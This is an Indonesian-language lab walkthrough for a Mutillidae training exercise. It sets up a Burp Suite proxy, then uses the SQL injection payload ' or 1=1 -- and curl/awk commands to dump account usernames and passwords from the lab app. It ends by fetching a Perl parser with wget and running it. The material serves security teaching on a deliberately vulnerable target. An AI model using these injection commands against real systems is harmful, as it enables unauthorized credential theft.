# Lesson 7 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/preferences.png "Home page")
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan **Manual proxy**
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, kemudian Close
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke **8080** seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn off intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off (**intercept is off**), jika dalam keadaan on maka set ke off
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: Obtain Userlist (Method #1)
1. Obtain Userlist Without Password
   - Pada kolom textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/true.png "Home page")
2. View Results
	- Halaman selanjutnya akan memuat kumpulan data table account yang berupa **username**, **password** dan **signature**
	- Perhatikan string yang ada pada url yang di hightlight `'+or+1%3D1--+`
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/result.png "Home page")
3. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
   - Perbedaan string tersebut dengan string yang sebelumnya adalah %27 setelah single quote(')
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/data_raw.png "Home page")
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File" 
4. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies2.txt**
   - Klik tombol Save
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/save_raw.png "Home page")

## Simulate CURL SQL Injection: (Method #2)
1. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
   ```bash
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_curl.png "Home page")

## Perl Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt
   cat lesson7.txt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/cat_lesson.png "Home page")

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
   mv lesson7.pl.TXT lesson7.pl
   chmod 700 lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/download_perl.png "Home page")

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```bash
   ./lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_perl.png "Home page")